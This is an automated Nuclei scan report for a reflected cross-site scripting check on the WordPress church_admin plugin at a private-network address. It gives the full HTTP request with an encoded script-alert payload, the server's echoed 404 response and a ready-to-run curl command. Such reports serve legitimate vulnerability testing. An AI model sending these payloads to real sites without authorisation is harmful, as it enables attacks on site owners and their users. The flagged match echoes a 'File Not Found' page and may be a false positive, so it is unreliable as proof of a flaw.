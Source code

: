 ### WordPress Plugin church_admin - 'id' Reflected Cross-Site Scripting (XSS) (wp-church-admin-xss) found on http://192.168.198.179:8080/
---
**Details**: **wp-church-admin-xss**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/church-admin/includes/validate.php?id=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:30 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | WordPress Plugin church_admin - 'id' Reflected Cross-Site Scripting (XSS) |
| Authors | daffainfo |
| Tags | wordpress, xss, wp-plugin |
| Severity | medium |

**Request**
```http
GET /wp-content/plugins/church-admin/includes/validate.php?id=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2224.3 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 247
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/church-admin/includes/validate.php?id=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://packetstormsecurity.com/files/132034/wordpress-church-admin-0.800-cross-site-scripting.html

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2224.3 Safari/537.36' 'http://192.168.198.179:8080/wp-content/plugins/church-admin/includes/validate.php?id=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)